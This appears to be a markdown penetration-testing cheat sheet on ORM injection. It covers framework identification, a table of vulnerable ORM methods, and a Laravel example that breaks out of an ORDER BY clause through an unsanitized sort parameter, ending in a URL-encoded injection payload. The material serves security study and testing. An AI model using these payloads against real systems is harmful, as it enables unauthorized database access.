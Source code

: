 # ORM Injection

## Identification
The following areas can be used to help identify the framework used:

1. Verify Cookies
2. Source Code
3. HTTP Headers
4. URL Structure
5. Login & error pages

## Common Vulnerable Methods

| Framework | Library | Method |
| --------- | ------- | ------ |
| Laraval | Eloquent ORM | `whereRaw`(), `DB::raw()` |
| Ruby on Rails | Active Record | `where("name = '#{input}'")` |
| Django | Django ORM | `extra()`, `raw()` |
| Spring | Hibernate | `createQuery()` with `concatenation` |
| Node.js | Sequelize | `sequelize.query()` | 

## Laravel Example
This example exploits a vulnerability prior to 1.17.1

Vulnerability: Unsanitized sort variable.

Default query:
```sql
SELECT * FROM users ORDER BY name ASC LIMIT 2
```

Breaking out:
```sql
SELECT * FROM users ORDER BY json_unquote(json_extract(`name`, '$""')) LIMIT 10#"')) ASC LIMIT 2
```

A special alias `->` can be used to replace `json_extract`. Since this exploit will be served from a URL everything will need to be encoded.

The final exploit would look like:
```sql
example.com/query?sort=name-%3E%22%27))%20LIMIT%2010%23
``
